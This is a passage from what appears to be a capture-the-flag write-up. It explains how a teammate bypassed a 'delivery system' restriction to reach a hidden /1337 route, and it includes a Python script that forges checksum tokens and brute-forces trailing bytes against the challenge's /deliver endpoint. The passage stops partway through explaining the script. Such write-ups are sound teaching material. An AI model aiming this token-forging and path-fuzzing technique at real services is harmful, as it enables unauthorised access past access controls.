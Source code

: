 I tried using this approach with my own example to bypass the delivery system and reach the `/1337` route to get the flag. However, it didn’t work and resulted in the following response:
> Cannot GET /404%C3%82

![Alt text](image-2.png)


This is when my teammate **M0ngi** had an idea to bypass the delivery system by systematically testing byte variations appended to the path.  

He wrote a script that automates the process of generating tokens and sending requests to the `/deliver` endpoint. Here’s a snippet of the code:  

```python
import requests

def path_to_checksum(bytes_path: bytes) -> str:
    s = sum(bytes_path) % 256
    hs = hex(s)[2:].rjust(2, '0')
    return bytes_path.hex() + ':' + hs

for i in range(1,256):
    
    PATH = b"/1337"+bytes.fromhex(hex(i)[2:].rjust(2, '0'))
    resp = requests.get("https://the-cake-warehouse-d625728bd5a00f1f.challs.brunnerne.xyz/deliver?token=" + path_to_checksum(PATH))
    if 'class="report">404</div>' not in resp.text and '<h1>400 Bad Reques' not in resp.text and 'Cannot GET ' not in resp.text and 'is delivery is forbidde' not in resp.text:
        print(resp.text)
        print(i, hex(i))
```

The script works as follows:

**Importing requests:**
   The `requests` library is imported to easily send HTTP requests from Python. This allows automated interaction with the delivery system.
